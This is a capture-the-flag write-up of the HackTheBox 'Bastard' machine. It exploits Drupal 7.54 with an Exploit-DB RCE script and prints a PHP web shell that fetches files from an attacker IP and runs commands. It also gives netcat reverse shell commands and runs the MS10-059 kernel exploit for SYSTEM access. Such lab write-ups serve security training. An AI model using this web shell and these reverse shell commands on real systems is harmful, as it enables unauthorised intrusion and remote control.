 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastard-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/bastard-01.png)



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/hosts-02.png)


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nmap-res-03.png)


We have the following:

+ An IIS v7.5 server on port 80. Seems like the `robots.txt` has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/site-04.png)

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/robots-05.png)


This `CHANGELOG.txt` file must contain version numbers. 

![changelog-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/changelog-06.png)


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/searchsploit-06.png)


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/php-08.png)

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-fail-09.png)

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-success-10.png)

Now we found the rest endpoint location, which means we can probably exploit this. We just need to update the directory name in the exploit:

![update-exploit-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/update-exploit-11.png)

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/execute-12.png)


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/rce-13.png)


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nc-transfer-14.png)


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/shell-15.png)

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/sysinfo-16.png)

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/exploit-suggester-17.png)

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/dir-18.png)

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` is the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/root-19.png)

